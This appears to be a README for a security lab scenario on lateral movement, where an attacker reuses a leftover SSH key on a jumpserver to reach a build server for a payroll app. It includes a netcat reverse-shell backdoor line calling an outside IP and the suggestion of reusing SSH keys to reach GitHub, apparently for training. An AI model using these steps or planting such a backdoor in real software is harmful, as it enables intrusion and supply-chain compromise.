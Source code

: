 # Multi-Machine Lateral Movement

This scenario shows an attacker gaining access to a public-facing server outside of the cluster, and using it to connect to a more restricted build environment.

## Pre-requisites

This scenario requires two machines to be set up outside of the Kubernetes cluster using the install script. To begin, you will need the IP address and SSH key to access the first server (or "jumpserver").

## Running the Exploit

- ssh to the jumpserver

```sh
history
ls ~/.ssh
ssh -i ~/.ssh/buildbox_id root@buildbox
```

```sh
history
ls ~/payroll-app/
cat payroll-app/Makefile
ls ~/.ssh
```

There are two machines in this scenario: a "jumpserver" and a build server (`buildbox`). The build server is supposed to be restricted, and can only be accessed from machines within the same account. To use the build server for publishing new versions of private images, developers first connect to a public-facing jumpserver using SSH. From there, they can connect to the build server.

In this scenario, we start as the attacker, who has just acquired the SSH key for the jumpserver. Let's start by connecting to the machine.

```sh
ssh -i ~/path/to/jumpserver/key root@JUMPSERVER_IP
```

Now, take a look at the history:

```sh
history
```
```
    1  ls -la
    2  hostname
    3  systemctl status sshd.service 
    4  ls .ssh/
    5  ssh-keygen
    6  cat .ssh/buildbox_id.pub 
    7  ssh -i ~/.ssh/buildbox_id root@buildbox
    8  history
```

The developers used the SSH key `buildbox_id` to access the build server. It also looks like the SSH key is still present:

```sh
ls ~/.ssh
```
```
authorized_keys  buildbox_id  known_hosts  known_hosts.old
```

So now, we can connect to the build server:

```sh
ssh -i ~/.ssh/buildbox_id root@buildbox
```

If we look at the history, we can see some of the old packages that were built here:

```sh
history
```
```
    1  git clone git@github.com:example/build.git 
    2  cd build
    3  make push-container
    4  cd ..
    5  rm -rf build
    6  git clone git@github.com:example/payroll-app.git 
    7  cd payroll-app
    8  make build
    9  make push-container
   10  cd payroll-app
   11  git pull
   12  make push-container
   13  history
   14  ls ~/.ssh
   15  ls ~/payroll-app/
   16  cat payroll-app/Makefile 
   17  history
```

From here, we can take a look at the `payroll-app` directory to get some more details about how the build were handled:

```sh
ls ~/payroll-app/
```
```sh
cat payroll-app/Makefile
```

And, given the access on this machine, we could edit the `payroll-app` package to add a backdoor that we could access, and then push a new version of the package. For example:

```py
# file: payroll-app/payroll-calc.py
# ...
import os; os.system("nc 203.0.113.45 443 -e /bin/bash")
```

Given the build server is fetching private code using SSH, we can also use the SSH keys here to login to GitHub and view the company's repositories:

```sh
ls ~/.ssh/
```

For more detail, see the [supply chain attack demo](../supply_chain/README.md).

## Investigation

[[TODO]]

## Further Reading

- [Supply Chain Attack Scenario](../supply_chain/README.md)
- [End-to-End Demo Scenario](../end_to_end/README.md)

